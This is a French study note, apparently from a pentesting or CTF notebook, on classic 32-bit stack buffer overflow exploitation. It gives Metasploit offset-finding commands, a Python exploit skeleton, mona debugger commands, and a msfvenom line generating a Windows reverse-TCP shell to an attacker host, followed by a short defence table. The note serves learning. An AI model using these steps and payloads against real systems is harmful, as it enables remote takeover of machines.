

# 💥 Buffer Overflow (32-bit classique)

> [!info] **En 1 phrase**
> Buffer Overflow = écrire **plus de données que prévu** dans une variable, écraser le pointeur de
> retour (EIP), et rediriger l'exécution vers notre **shellcode**.

---

## 🎯 Concept



```
Pile (croissance) :
+---------------------------+
|  Buffer (input contrôlé)  |  ← on déborde
|  EBP (frame pointer)      |
|  EIP (retour)  ← ON ÉCRASE |
|  ... retour de fonction   |
+---------------------------+
```

> [!info] 💡 **Contexte d'apprentissage**
> L'exploitation moderne exige DEP/ASLR/canaries + **ROP**. La version "classique 32-bit"
> (stack exécutable, pas d'ASLR) apprend le **mécanisme**. Les CTF (THM, VulnHub) l'utilisent.

---

## ⚙️ Les étapes

1. **Crash** : envoyer un input trop long, repérer la taille.
2. **Offset** : trouver combien de bytes avant d'écraser EIP (pattern_create / offset).
3. **Bad chars** : identifier les octets qui cassent le shellcode (`\x00` minimum).
4. **JMP ESP** : une adresse stable d'un module (sans ASLR) qui saute sur notre shellcode.
5. **Shellcode** : générer (msfvenom, `-b` badchars).
6. **Exploit** : `offset + jmp_esp + nops + shellcode`.

---

## 🛠️ Exploitation

```bash
# Pattern pour l'offset
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000 > pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x<valeur_EIP>
```

```python
# Exploit final
import socket, struct
offset = 524
jmp_esp = struct.pack("<I", 0x080414c3)
shellcode = b"\xdb..."   # msfvenom -p ... -b "\x00\x0a\x0d" -f python
payload = b"A"*offset + jmp_esp + b"\x90"*16 + shellcode + b"\x90"*(200-len(shellcode))
```

```bash
# Générer le shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 \
         -f python -b "\x00\x0a\x0d"
# Outils mona (Immunity Debugger) :
#   !mona pattern_create 2000
#   !mona pattern_offset 0x<eip>
#   !mona jmp -r esp -m "essfunc.dll"
#   !mona bytearray -b "\x00"  /  !mona compare
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Stack Canaries** | Détecte le débordement avant le retour |
| **DEP (NX)** | Empêche l'exécution de la pile → oblige ROP |
| **ASLR** | Rend les adresses imprévisibles |
| **Compilation sécurisée** | `/GS`, mitigations de base |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **ROP = le réflexe moderne**
> Quand DEP est activé, on enchaîne des **gadgets** (petites instructions) pour appeler
> `VirtualProtect` puis exécuter le shellcode — sans jamais l'exécuter depuis la pile.

> [!warning] ⚠️ **Piège** : le **bad char** `\x00` casse tout (terminaison de chaîne). Toujours la liste complète des bad chars, sinon le shellcode meurt silencieusement.

---

## 🔗 Liens

- [[Reverse Shells|🕸️ Reverse Shells]]
- → Note complète : [[04 - Exploitation Réseau|💥 Exploitation Réseau]]
